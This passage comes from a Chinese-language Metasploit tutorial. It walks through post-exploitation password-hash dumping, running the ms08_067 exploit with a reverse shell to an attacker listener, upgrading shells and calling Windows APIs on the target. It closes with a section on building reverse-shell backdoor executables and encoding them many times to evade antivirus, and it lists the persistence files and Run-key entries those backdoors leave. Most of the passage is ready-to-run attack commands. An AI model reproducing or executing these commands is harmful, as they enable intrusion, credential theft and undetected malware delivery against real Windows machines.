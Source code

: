 _(会在以下位置和注册表以随机文件名写入文件等信息，如： 
C:\Users\YourtUserName\AppData\Local\Temp\MXIxVNCy.vbs 
C:\Users\YourtUserName\AppData\Local\Temp\radF871B.tmp\svchost.exe 
HKLM\Software\Microsoft\Windows\CurrentVersion\Run\DjMzwzCDaoIcgNP)_
* ⑧POST 整合模块 
可实现同时多个session 操作 
例子：获取hash 
```meterpreter> run post/windows/gather/hashdump ```
其他还有很多，使用TAB 键补全看下就知道run post/

#### 5、升级command shell 
例子： 
```
msfconsole 
msf> search ms08_067 
msf> use windows/smb/ms08_067_netapi 
set PAYLOAD windows/shell/reverse_tcp 
set TARGET 3 
setg LHOST 192.168.1.111 
setg LPORT 8080 
exploit –z #后台运行，如果此处未使用-z 参数，后面可以按CTRL-Z 转到后台 
sessions –u 1 #升级shell，必须前面使用setg 设定 
sessions –i 2
```
#### 6、使用Railgun 操作windows APIs 
例子： 
meterpreter> irb


  
    client.railgun.user32.MessageBoxA(o,”hello”,”world”,”MB_OK”) 
    在目标机器上会弹出一个标题栏为world 和内容为hello 的窗口
  


### 七．避开杀软 
#### 1、使用msfpayload 创建可执行后门： 
例子： 
msfpayload windows/shell_reverse_tcp 0 #查看选项 
msfpayload windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=31337 X > 
/var/www/payload1.exe 
**然后本机监听端口** 
```
msf> use exploit/multi/handler 
show options 
set PAYLOAD windows/shell_reverse_tcp 
set LHOST 192.168.1.111 
set LPORT 31337 
exploit
```
#### 2、过杀软—使用msfencode 编码后门： 
msfencode –l #列出可用编码器 
例子： 
```msfpayload windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=31337 R |msfencode –e x86/shikata_ga_nai –t exe > /var/www/payload2.exe ```
使用R 参数作为raw 输出至管道，再经过msfencode 处理，最后导出。

#### 3、多次编码： 
例子： 
```
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.111 LPORT=31337 R | 
msfencode –e x86/shikata_ga_nai –c 5 –t raw | msfencode –e x86/alpha_upper –c 2 –t raw | 
msfencode –e x86/shikata_ga_nai –c 5 –t raw | msfencode –e x86/countdown –c 5 –t exe –o 
/var/www/payload3.exe
``` 
简单编码被杀机会很大，使用多次编码效果更好，这里一共使用了17 次循环编码。 
```